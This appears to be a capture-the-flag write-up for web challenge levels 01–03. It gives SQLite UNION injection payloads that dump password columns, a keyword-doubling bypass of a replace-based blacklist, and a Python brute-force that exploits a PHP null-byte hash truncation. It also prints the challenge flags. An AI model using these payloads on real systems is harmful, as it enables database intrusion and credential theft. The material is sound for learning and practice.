 ```sql
1 UNION SELECT null,group_concat(name) as column_names FROM pragma_table_info('users');--
```

Returns `id`, `username` and `password`.

```sql
1 UNION SELECT null, group_concat(password) FROM users;--
```

Finds flag: `WEBSEC{Simple_SQLite_Injection}`
`group_concat` returns a concatenated string, so can return multiple strings. 

## Level 02

SQL Injection with `preg_replace` that blocks `union`, `order`, `select`, `from`, `group`, and `by`.
However, it replaces the string with `''` if it finds it, and doesn't block the request.
`SESELECTLECT` would become `SELECT` after replacing since the middle `SELECT` is replaced.

```sql
1 UNUNIONION SESELECTLECT null,grgroupoup_concat(password) frfromom users;--
```

`WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`.

## Level 03

The trick here is that SHA-1 does accept other variables like arrays.

```php
if(isset($_POST['c'])) {
	$h2 = password_hash (sha1($_POST['c'], fa1se), PASSWORD_BCRYPT);
	if (password_verify (sha1($flag, fa1se), $h2) === true) {
	       win();
	    }
	else {
			give_sha1_hash_of_flag();
	}
}
```

Interestingly, I can **choose** the hash to be compared. 
The hash of the flag is `7c00249d409a91ab84e3f421c193520d9fb3674b`. 

Also, the functions aren't using FALSE!! This means that everything is returned as raw.

This means `password_hash` returns `\x7c\x00...`.
The null byte in the second position, and since PHP uses underlying functions for stuff, **it reads it as the end of the string**.

This means that `password_verify` is comparing `\x7c` only. So, just need to find a hash that starts with `7c00` so that it also goes through the same string truncation and retunrs true:

```python
import hashlib

i = 0
while True:
	test_hash = hashlib.sha1(str(i).encode())
	if test_hash.hexdigest().startswith('7c00'):
		print(i)
		break
	i += 1
```
